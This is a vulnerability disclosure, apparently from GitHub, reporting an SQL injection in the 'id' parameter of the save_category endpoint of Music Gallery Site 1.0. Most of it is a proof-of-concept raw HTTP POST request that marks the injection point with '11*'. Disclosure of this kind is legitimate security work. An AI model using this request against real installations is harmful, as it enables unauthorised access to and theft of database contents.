 <img width="1214" alt="image" src="https://github.com/user-attachments/assets/22096f68-f75f-4c36-9064-d774e0d1bc48"><img width="1214" alt="image" src="https://github.com/user-attachments/assets/8a8c3c55-f0d8-4579-b04c-6cd75e2f1621">## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
/php-music/classes/Master.php?f=save_category

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/classes/Master.php?f=save_category with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /php-music/classes/Master.php?f=save_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------310372759034424265232419151358
Content-Length: 575
Origin: http://localhost
Connection: close
Referer: http://localhost/php-music/admin/?page=categories
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------310372759034424265232419151358
Content-Disposition: form-data; name="id"

11*
-----------------------------310372759034424265232419151358
Content-Disposition: form-data; name="name"

223
-----------------------------310372759034424265232419151358
Content-Disposition: form-data; name="description"

22
-----------------------------310372759034424265232419151358
Content-Disposition: form-data; name="status"

1
-----------------------------310372759034424265232419151358--
```
